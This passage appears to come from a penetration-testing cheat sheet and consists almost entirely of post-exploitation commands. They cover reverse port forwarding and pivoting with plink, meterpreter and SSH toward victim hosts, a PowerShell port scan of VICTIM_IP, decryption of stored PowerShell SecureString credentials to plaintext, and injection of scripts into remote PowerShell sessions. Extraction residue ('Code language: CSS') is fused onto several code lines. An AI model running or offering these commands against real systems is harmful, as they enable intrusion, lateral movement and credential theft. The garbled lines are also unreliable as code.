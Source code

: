 ```

 #Port forward using plink 
 plink.exe -l user -pw pass123 192.168.1.56 -R 8080:127.0.0.1:8080
 #Port forward using meterpreterportfwd
 add -l attacker-port -p victim-port -r victim-ip
 portfwd add -l 3306 -p 3306 -r 192.168.1.56
 # Dynamic Pivoting using ssh with proxy chain 
 ssh -D 9050 root@target 
 # Port forwarding with SSH 
 ssh -L localhost:8080:target:8080 root@targetipCode language: CSS (css)
```


**Powershell Portscan**
-----------------------

```

0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(VICTIM_IP,$_)) "Port $_ is open!"} 2>$nullCode language: PHP (php)
```


**Recovering Powershell Secure String**
---------------------------------------

```

 
$user = "user"
$file = "user-pass.xml"
$cred= New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user, (Get-Content $file | ConvertTo-SecureString)
Invoke-Command -ComputerName ECORP -Credential $cred -Authentication credssp -ScriptBlock { whoami }

[System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR("string"))

$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($password)
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
$resultCode language: PHP (php)
```


**Injecting PowerShell scripts Into sessions**
----------------------------------------------

```

Invoke-Command -FilePath scriptname -Sessions $sessions
Enter-PSSession -Session $sessCode language: PHP (php)
```

